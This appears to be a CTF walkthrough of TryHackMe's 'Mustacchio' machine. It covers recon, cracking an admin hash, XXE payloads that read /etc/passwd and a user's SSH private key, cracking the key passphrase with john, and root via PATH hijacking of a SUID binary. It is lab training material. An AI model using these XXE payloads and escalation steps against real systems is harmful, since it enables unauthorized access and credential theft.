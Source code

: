 ### Mustachio

Easy boot2root Machine

## Recon

As at the beginning of every hack we need to collect information and I started with NMap using the command ```nmap -sV -sC mustachio.thm -p-``` and got this answer:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

After that I went to the site to get my first impressions and in the meantime I left Dirsearch running using the command ```dirsearch -w /usr/share/wordlists/dirb/big.txt -u mustachio.thm```.

![](Screenshot_1.png)

When I looked at the terminal that was running Dirsearch it brought me this:

```
[22:13:19] 301 -  303B  - /custom  ->  http://ctf.thm/custom/   
[22:13:36] 301 -  302B  - /fonts  ->  http://ctf.thm/fonts/   
[22:13:48] 301 -  303B  - /images  ->  http://ctf.thm/images/
[22:14:35] 200 -   28B  - /robots.txt                     
[22:14:40] 403 -  272B  - /server-status  
```

In the Custom folder I found a file called "user.bak" in mustachio.thm/custom/js

![](Screenshot_2.png)

I downloaded the file and opened a terminal in the Downloads folder and typed the command ```strings user.bak```. Inside the file I found a username called admin and a password in hash format. So I used crackstation.net to crack the password and this was the result:

## Vulnerability Analysis and Exploration

![](Screenshot_3.png)

Wow! We managed to crack the hash and get the password, we are on the right path. Let's keep it there because we'll be using it in the future.
I explored the other directories that I found with Dirsearch but I didn't find anything interesting. Then I went to HTTP port 8765 and took the opportunity to use Dirsearch on it too:

![](Screenshot_4.png)

Now we find an admin panel and we can use the credentials found on port 80.

![](Screenshot_5.png)

Yes! We managed to get into the admin panel, now we need to take a look at this panel and find out its functions.
Well, after a while of looking for something in the admin panel I ended up intercepting the request I made to the server when I wrote something in the comments part. So I decided to look at the request response and found this:

![](Screenshot_6.png)

Wow! We found another file on the web, let's download it and see what's in it.

```
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```

We found a message that was written in XML, what's the flaw using XML ? Are you thinking the same thing as me? Yes XXE is the fault, I'm already happy to get to that part lol. I applied the same message and gave this result:

![](Screenshot_7.png)

Well, we saw above that there was a message telling Barry that his SSH key was ready, when I got this username I tried to crack his SSH password but it gave this result: ```[ERROR] target ssh: //mustachio.thm:22/ does not support password authentication (method reply 4).```.

So I tried to log in using SSH and this error came up: ```barry@mustachio.thm: Permission denied (publickey).```.

So we need an id_rsa.pub to get one of the first steps to access the system, well let's enumerate more users, I will use a payload of XXE to get /etc/passwd.

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
<!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<comment>
<name>Joe</name>
<author>MrEmpy</author>
<com>&file;</com>
</comment>
```

![](Screenshot_8.jpg)

Yes! We were able to enumerate the users, so we have 3 users root, joe, barry. We'll save them for future exploration. Well now that I know the users I'm going to try to get the id_rsa.pub starting with the user Barry.

![](Screenshot_9.jpg)

Good we got it, I tried it with the user Joe but I wasn't successful. Now copy id_rsa.pub and paste it into your id_rsa.pub on your system. Example: ```echo "<target id_rsa.pub> >> /root/.ssh/id_rsa.pub``` or with Kali user ```echo "<target id_rsa.pub> >> /home/kali/ .ssh/id_rsa.pub```.

Well, since Barry has an id_rsa.pub he probably has an id_rsa too. So let's try to get his RSA.

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
<!ENTITY file SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
<name>Joe</name>
<author>MrEmpy</author>
<com>&file;</com>
</comment>
```

![](Screenshot_10.jpg)

Yes! We got id_rsa and id_rsa.pub, id_rsa just this half pie more than to fix it, it just has to look like this model:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
(...)
```

There we fixed the id_rsa. Copy and paste it into your folder and allow it using the command ```chmod 600 <id_rsa>``` and now let's try to log into the machine with the command ```ssh -i <id_rsa> barry@mustachio.thm ```.

Well here is asking for a key password. We have to crack this id_rsa and figure out the password, so let's use the ssh2john.py tool, you can find it by typing the command ```locate ssh2john.py``` but if it doesn't exist you will need to download the John tool first.

Now I'm going to turn id_rsa into a bunch of characters that only John understands for us to crack the password. Run these commands:

```
/usr/share/john/ssh2john.py <id_rsa> > john.txt

john --wordlist=/usr/share/wordlists/rockyou.txt john.txt
```

Good! We managed to crack the RSA password! Now just log in with the command ```ssh -i <id_rsa> barry@mustachio.thm```. It's asking for password so let's put in the password we got.

## Post Exploitation
![](Screenshot_11.png)

Wow we are in the system! That's really good! Now just get the user.txt flag.

Now we need to escalate privilege to become root, let's go to the home/joe folder. It has a file called live_log and if we type ```ls -la live_log``` we will see this ```-rwsr-xr-x 1 root root 16832 Jun 12 15:48 live_log```.
This indicates that this file has SUID and can be used to scale privileges, since if we run this file with just the ```./live_log``` command we will be running it with ROOT.

When I looked at this file I thought of typing ```strings live_log``` and found something interesting in it:

![](Screenshot_12.png)

Observing this I saw that it was a command so I copied the command and tried to run it with the user Barry but it gave Permission Denied, this is more proof that when we run a file that has rwsr we are running as root.

When I saw this I quickly remembered TryHackMe's Kenobi room:

![](Screenshot_13.png)

I saw that we could change the tools folder from /usr/bin and a custom one like /tmp/attacker and create our own tool like the tail that was mentioned inside live_log. What if we change /usr/bin to /tmp/attacker and create a tool called tail and put a shell inside it? Does it work? Let's test it, first let's create a folder inside /tmp called attacker ```mkdir /tmp/attacker``` and then go into it.
Now let's change the /usr/bin folder to /tmp/attacker using the command ```export PATH=/tmp/attacker:$PATH```.

Now we're going to create the tail file, let's add this to it:

```echo '#!/bin/bash' > tail```

```echo '/bin/bash' >> tail```

After that let's type ```chmod +x tail```. Now let's go back to the live_log folder and let's run it.

![](Screenshot_14.png)

GG! Yes! We managed to hack the machine and get the root.txt flag. And so we finished another CTF. It is very rewarding to be able to hack a machine.

Thanks for reading my Writeup, I have a YouTube channel if you can subscribe it will help me a lot
https://www.youtube.com/channel/UCol7qlIUc0o0JKmdrmTWQtA

To the next :)
